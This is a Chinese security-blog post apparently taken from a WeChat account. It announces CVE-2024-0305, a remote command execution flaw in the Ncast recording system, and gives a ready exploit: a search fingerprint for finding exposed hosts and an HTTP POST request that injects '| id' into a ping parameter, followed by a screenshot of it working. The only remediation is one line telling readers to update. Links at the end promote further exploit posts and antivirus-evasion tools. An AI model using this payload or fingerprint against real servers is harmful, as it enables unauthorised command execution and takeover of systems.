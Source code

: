 #  叮～你有新的速递！CVE-2024-0305 RCE漏洞（附EXP）   
冯宝宝  哪都通安全   2024-01-20 21:43  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ukiacpKckBCBW0oRLickDlwBXcvdg0O19gnebUeltmibDpIdnE7pZS608XbClUn5GruVUKjqWFhIQlyk0Bzjs5N8g/640?wx_fmt=png "")  
  
0x01 前言  
  
  
  
  
  
     
Ncast盈可视高清智能录播系统  
存在RCE漏洞  
，攻击者可以利用此漏洞执行任意命令  
，执行任意命令  
，通过该漏洞可以获取服务器权限  
。  
  
  
0x02 影响平台  
```
Ncast 平台
```  
  
0x03 漏洞复现  
  
搜索语法  
```
icon_hash="-1253433910"
```  
  
页面  
是这个酱紫  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ukiacpKckBCBcibR0VDVo4nF9jrhpaOibwAt3pGuop1lQYTOzIZ4BZfM9UEias9qVEIicdSQMSxWalsmQGVsrQxhMxg/640?wx_fmt=png&from=appmsg "")  
  
EXP如下：  
```
POST /classes/common/busiFacade.php HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 98
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

{"name":"ping","serviceName":"SysManager","userTransaction":false,"param":["ping 127.0.0.1 | id"]}
```  
  
Suc  
c  
e  
ss~  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ukiacpKckBCBcibR0VDVo4nF9jrhpaOibwAISrfcshMJ51c5moM7xbGib2bbVpq641AyEd37QBAMrNo4GrAxuOaaHQ/640?wx_fmt=png&from=appmsg "")  
  
0x04 修复方案  
```
建议及时更新至最新版本！
```  
  
往期推荐  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247521495&idx=1&sn=caac7e98e96267c6e24e740f1bcefd79&chksm=ce643e4ef913b7586a9525fe0ed4fa5e5b3114bc2d0fbc2b278387e860b1e55ca4c656adf70b&scene=21#wechat_redirect)  
[【漏洞系列】叮~你有新的速递！某软RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484930&idx=1&sn=5999d0d9dcc565490627aba8b2d9374a&chksm=cf51a4a8f8262dbec92c5e2a8a9fb49b22127d5685c8ee279763a00715984d2db1ef7253f97f&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247521495&idx=1&sn=caac7e98e96267c6e24e740f1bcefd79&chksm=ce643e4ef913b7586a9525fe0ed4fa5e5b3114bc2d0fbc2b278387e860b1e55ca4c656adf70b&scene=21#wechat_redirect)  
  
【漏洞系列】[叮～你有新的速递！某友-OA信息泄露登录后台（附EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484939&idx=1&sn=d716dcd24ec991341c0ada7cc329f343&chksm=cf51a4a1f8262db712687929265a9a461f9c07b441abe88f8f4f1b66083572c7396b8780a4f1&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247521495&idx=1&sn=caac7e98e96267c6e24e740f1bcefd79&chksm=ce643e4ef913b7586a9525fe0ed4fa5e5b3114bc2d0fbc2b278387e860b1e55ca4c656adf70b&scene=21#wechat_redirect)  
【漏洞系列】[叮～你有新的速递！CVE-2023-33246 RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247485469&idx=1&sn=21ddaa9ce4af9f928db7d801a0cb2a37&chksm=cf51aab7f82623a1f47914d62f4d17f8c4af6ef82ac1f2a7a06de4d7aa34da971c7b589ae95f&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
  
【漏洞系列】[叮～你有新的速递！CNVD-2023-08743漏洞（附PoC）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484607&idx=1&sn=5b01c17d9ec3ff0868d963b7f7c6813e&chksm=cf51a615f8262f0389be2dda88ea983918621369b52abeb99e2958591d8d8be109e527978537&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
[【漏洞系列】](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484499&idx=1&sn=e93b049f9085b44e86fbc392cf313e77&chksm=cf51a6f9f8262fefc86b142742bc80f7008893e2b397aa55627006eb112e69e1aea84e5fb7f6&scene=21#wechat_redirect)  
  
叮～你有新的速递！CVE-2023-29922漏洞（附脚本）  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
  
【漏洞系列】[叮～你有新的速递！CVE-2023-22480漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484476&idx=1&sn=cc692da2d62e07d4a4d053069b72ef05&chksm=cf51a696f8262f80df9622f9c1da64233d54e07f0936d5a7212744281223a07755bfd0983249&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
  
【漏洞系列】  
[叮～你有新的速递！CVE-2023-25135漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484455&idx=1&sn=a3fb258e716a3b0d11eea3f7e59939bc&chksm=cf51a68df8262f9b5a8cf8fe6fe680ba96a529f1bf9295b380e98e66d4587ea54ef1515a14b1&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
[【漏洞系列】叮~你有新的速递！CVE-2023-27524漏洞利用Tools](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484438&idx=1&sn=5c90cf5a201e5c55c1dc580e72c4fec1&chksm=cf51a6bcf8262faacc7b300663610c9c5d4bd05e6f5d005668a9656a8cd52a670bf5274852f0&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
  
【漏洞系列】[叮～你有新的速递！Citrix CVE-2023-3519 RCE漏洞（附PoC）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247485652&idx=1&sn=dfb71cc767beae31e44ad0c2f4739e77&chksm=cf51aa7ef826236818eb21b83b8f1450fbbf584a930e751e78e532f37d476f0cc96be8036f0a&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
【免杀系列】[New免杀工具NPS更新5.21（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484488&idx=1&sn=01dee9adc0f3fc47a30611878fc26818&chksm=cf51a6e2f8262ff4dbcdb3f41e3bcd70f360acea7aeb26b2a8ce979dc2d842837c0149e60139&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
【免杀系列】[TQL！最新Bypass360核晶与Defender免杀（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484432&idx=1&sn=990f9164a17faa75bd7bc9533fbae805&chksm=cf51a6baf8262fac77018716e49727e214c3326d836f7f8738253dddb93a4c9b8d90560caf05&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
【免杀系列】[Bypass | mimikatz的N种利用Tools包含一些免杀方法（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484415&idx=1&sn=10c1c5954c2042da7bd29cb0ca75034c&chksm=cf51a155f8262843ad79a4af2a23377addf879067161f6fe54b06f85fa25376868a9e8d30ff9&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
【免杀系列】[New一款红队免杀生成Tools（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484353&idx=1&sn=b1a2b72c3627b044b4c4a27c5381d705&chksm=cf51a16bf826287d80e81f76c30ccae7d002849bac4ee29f3ac9769d2239f851e533753c1b5e&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
  
【移动安全】[踩坑 | Fiddler雷电模拟器4.0无法抓包（超详细）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484576&idx=1&sn=5f1324059a625b9196d03cff8fc88efd&chksm=cf51a60af8262f1c59d5db867825b28568cda221ecfb109c9f5e719600bd38a97910d32c56f7&scene=21#wechat_redirect)  
  
  
[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)  
  
【移动安全】[牛掰！Xposed检测绕过总结](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484332&idx=1&sn=87d9f128182c6064755a99b0eb6a3e7a&chksm=cf51a106f8262810386a9033bac2c760533fa9ae008e444987de2d4e1aa7b05971916c686c05&scene=21#wechat_redirect)  
  
  
  
  
觉得内容不错，就点下  
“  
赞  
”和  
“在看  
”如侵权请私聊公众号删文  
  
